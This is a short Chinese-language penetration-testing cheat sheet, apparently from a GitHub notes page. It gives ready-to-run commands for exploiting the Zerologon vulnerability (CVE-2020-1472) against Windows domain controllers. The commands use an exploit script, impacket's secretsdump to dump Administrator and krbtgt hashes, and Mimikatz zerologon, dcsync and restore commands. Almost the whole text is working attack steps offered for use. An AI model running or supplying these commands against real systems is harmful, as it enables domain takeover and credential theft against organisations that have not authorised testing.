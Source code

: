 ##### 地址解析协议

实在搞不定再搞ARP

##### zerologon漏洞

```
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>

secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 

secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>

python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>
```

[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)

**1、利用Mimikatz **check

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$
```

**exploit**

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$ /exploit
```

**dcsync**

```
lsadump::dcsync /dc:dc1.exploit.local /authuser:dc1$ /authdomain:exploit.local /authpassword:"" /domain:exploit.local /authntlm /user:krbtgt
```

**restore**

```
lsadump::postzerologon /target:conttosson.locl /account:dc$ 
```

**2、利用impacket：**

- 取目标主机名+IP
- install 修改版本的impacket
- Exp

```
python cve-2020-1472-exploit.py DC2008 10.211.55.200
```

[![img](域渗透一条龙/images/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67.png)](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)
